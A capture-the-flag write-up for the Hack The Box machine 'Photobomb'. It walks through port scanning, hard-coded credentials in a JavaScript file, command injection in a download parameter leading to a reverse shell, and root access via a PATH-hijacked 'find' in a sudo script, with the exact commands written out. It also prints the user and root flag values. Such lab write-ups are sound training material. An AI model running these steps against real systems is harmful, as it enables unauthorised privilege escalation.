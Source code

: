 # Photobomb
https://app.hackthebox.com/machines/Photobomb

## Port scan

### Tool used: nmap
<br>

```
nmap -p- photobomb.htb

Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-19 17:05 CDT
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.078s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 38.18 seconds
```

First, we take a look at the website:<br><br>

![web](./docs/photobomb/photobomb_01_web.png)

![login](./docs/photobomb/photobomb_02_login.png)

The website has a link to login, but we are presented with a sign-in popup. Looking at the HTML, we see a reference to "photobomb.js". <br><br>

```html
<!DOCTYPE html>
<html>
<head>
  <title>Photobomb</title>
  <link type="text/css" rel="stylesheet" href="styles.css" media="all" />
  <script src="photobomb.js"></script>
</head>
<body>
  <div id="container">
    <header>
      <h1><a href="/">Photobomb</a></h1>
    </header>
    <article>
      <h2>Welcome to your new Photobomb franchise!</h2>
      <p>You will soon be making an amazing income selling premium photographic gifts.</p>
      <p>This state of-the-art web application is your gateway to this fantastic new life. Your wish is its command.</p>
      <p>To get started, please <a href="/printer" class="creds">click here!</a> (the credentials are in your welcome pack).</p>
      <p>If you have any problems with your printer, please call our Technical Support team on 4 4283 77468377.</p>
    </article>
  </div>
</body>
</html>
```

Looking at the JavaScript file, we see some hard-coded credentials for "tech support".<br><br>

```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

Following this link, we are taken to the "printer" page, where you can download various images in various resolutions.<br><br>

![printer](./docs/photobomb/photobomb_03_printer.png)

Using *Burp*, we see that during the download request, 3 parameters are being passed:<br><br>

![download](./docs/photobomb/photobomb_04_download.png)

This looks like a good spot for remote code execution, so we put some python code between the 2nd and 3rd parameters, and upon forwarding the request, we are able to get a reverse shell as **wizard**.<br><br>

![rshell](./docs/photobomb/photobomb_06_rshell.png)

Right away, we get the user flag:

**user.txt**

```
9b9f0da800c682537c75ffbf542d1998
```

Next, we see what kind of privileges we have:<br><br>

```
$ sudo -l
sudo -l

Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

Looking at "cleanup.sh" we see that there is a call to the **find** command, but it is not absolute.<br><br>

```sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

This means that we can set a new path for our custom **find** command, which will launch a privileged shell instead of searching for files.<br><br>

```
$ cd /tmp

$ touch find

$ echo "/bin/bash -p" > find

$ chmod +x find

$ sudo PATH=/tmp:$PATH /opt/cleanup.sh

root@photobomb:/home/wizard/photobomb# id

uid=0(root) gid=0(root) groups=0(root)
root@photobomb:/home/wizard/photobomb# 
```

From here, we can capture the root flag:

**root.txt**

```
711df426d8a982ec52cad09426e52821
```